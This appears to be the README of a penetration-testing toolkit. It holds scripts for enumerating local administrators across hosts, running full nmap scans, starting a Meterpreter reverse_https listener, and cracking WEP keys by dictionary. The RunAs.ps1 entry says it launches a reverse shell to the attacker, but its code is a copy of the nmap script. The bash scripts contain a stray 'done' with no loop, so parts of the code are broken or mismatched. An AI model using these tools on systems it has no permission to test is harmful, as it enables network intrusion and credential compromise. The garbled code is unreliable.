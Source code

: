 # Scripts

* LocalAdmins.ps1 - Checks a file of host servers for members of the Administrators, Remote Desktop Users, and Users local groups.
* NSLookUp.ps1 - Runs a NSLookUp query against a file of host servers.
* PrivateIP - Runs a Nmap scan on against a file of host servers with Private IP's to check both TCP and UDP ports.
* PublicIP - Runs a Nmap scan on against a file of host servers with Public IP's to check both TCP and UDP ports.
* RunAs.ps1 - Runs a 'RunAs' command to switch context of user whilst triggering and initiating a reverse shell to the attacker.
* Meterpreter.rc - Sets a Meterpreter listener/handler with options (msfconsole -q -r Meterpreter.rc).
* WEPCracker.py - Wrapper script to crack WEP using Airdecap-ng.


### LocalAdmins.ps1

```
$servers = Get-Content C:\servers.txt
$groups = 'Administrators', 'Remote Desktop Users', 'Users'
$results = foreach ($server in $servers) {
    foreach ($group in $groups) {
        $obj = [ADSI]"WinNT://$server/$group"
        $obj.Invoke('Members') | % {
            $path = ([adsi]$_).path
            [pscustomobject]@{
                Computer = $server
                Group = $group
                Domain = $(Split-Path (Split-Path $path) -Leaf)
                User = $(Split-Path $path -Leaf)
            }
        }
    }
}
$results
```

### NSLookUp.ps1

```
$servers = get-content "C:\temp\hostlist.txt"
foreach ($Server in $Servers)
{
    $Addresses = $null
    try {
        $Addresses = [System.Net.Dns]::GetHostAddresses("$Server").IPAddressToString
    }
    catch { 
        $Addresses = "Server IP cannot resolve."
    }
    foreach($Address in $addresses) {
        write-host $Server, $Address 
    }
}
```

### Private IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Private -oG PrivateTCP.txt
nmap -sU -v -iL ./Private -oG PrivateUDP.txt
done
```

### Public IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### RunAs.ps1

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### Meterpreter.rc

```
use exploit/multi/handler 
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 192.168.49.91 
set LPORT 443
set ExitOnSession false 
exploit -j -z 
```

### WEPCracker.py

```
#!/usr/bin/python

import sys, binascii, re
from subprocess import Popen, PIPE

f = open(sys.argv[1], 'r')
for line in f:
    wepKey = re.sub(r'\W+', '', line)
    
    if len(wepKey) != 5 :
        continue
    hexKey = binascii.hexlify(wepKey)
    print "Trying with WEP Key: " +wepKey + " Hex: " + hexKey
    p = Popen(['/usr/bin/airdecap-ng', '-w', hexKey, 'WEP-Advanced.cap'], stdout=PIPE)
    output = p.stdout.read()
    finalResult = output.split('\n')[4]
    
    if finalResult.find('1') != -1 :
        print "Success WEP Key Found: " + wepKey
        sys.exit(0)
print "Failure! WEP Key Could not be Found with the existing dictionary!"
```

